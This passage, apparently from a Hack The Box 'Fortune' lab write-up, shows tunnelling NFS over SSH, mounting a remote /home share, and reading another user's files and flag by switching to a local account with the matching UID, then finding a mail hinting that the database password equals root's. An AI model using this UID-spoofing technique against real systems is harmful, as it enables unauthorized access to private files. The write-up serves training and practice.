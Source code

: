 ```
# ssh -i fortune.key -L 2049:fortune.htb:2049 nfsuser@fortune.htb
Last login: Sat Mar  9 20:08:55 2019 from 10.10.14.23

Hello nfsuser. You are authenticated from host "10.10.14.23"
```

```
# mount -t nfs fortune.htb:/home /mnt
# ls -l /mnt
total 6
drwxr-xr-x 5 revssh   revssh   512 Nov  3 16:29 bob
drwxr-x--- 3 test1324 test1324 512 Nov  5 22:02 charlie
drwxr-xr-x 2     1002     1002 512 Nov  2 22:39 nfsuser
```

The `charlie` user directory is mapped to user ID 1000. I already has a user ID 1000 created on my Kali Linux box with the name `test1324`:

```
# grep test1324 /etc/passwd
test1324:x:1000:1000::/home/test1324:/bin/bash
```

To access `charlie`, I simply change to user `test1324` then I'm to access the files and the user flag.

```
root@ragingunicorn:~/htb/fortune# su test1324
test1324@ragingunicorn:/root/htb/fortune$ cd /mnt/charlie
test1324@ragingunicorn:/mnt/charlie$ ls
mbox  user.txt
test1324@ragingunicorn:/mnt/charlie$ cat user.txt
ada0af...
```

There's a mailbox file with a hint that we should look or the dba password next so we can log in as root:

```
test1324@ragingunicorn:/mnt/charlie$ cat mbox
From bob@fortune.htb Sat Nov  3 11:18:51 2018
Return-Path: <bob@fortune.htb>
Delivered-To: charlie@fortune.htb
Received: from localhost (fortune.htb [local])
	by fortune.htb (OpenSMTPD) with ESMTPA id bf12aa53
	for <charlie@fortune.htb>;
	Sat, 3 Nov 2018 11:18:51 -0400 (EDT)
From:  <bob@fortune.htb>
Date: Sat, 3 Nov 2018 11:18:51 -0400 (EDT)
To: charlie@fortune.htb
Subject: pgadmin4
Message-ID: <196699abe1fed384@fortune.htb>
Status: RO

Hi Charlie,

Thanks for setting-up pgadmin4 for me. Seems to work great so far.
BTW: I set the dba password to the same as root. I hope you don't mind.

Cheers,

Bob
```
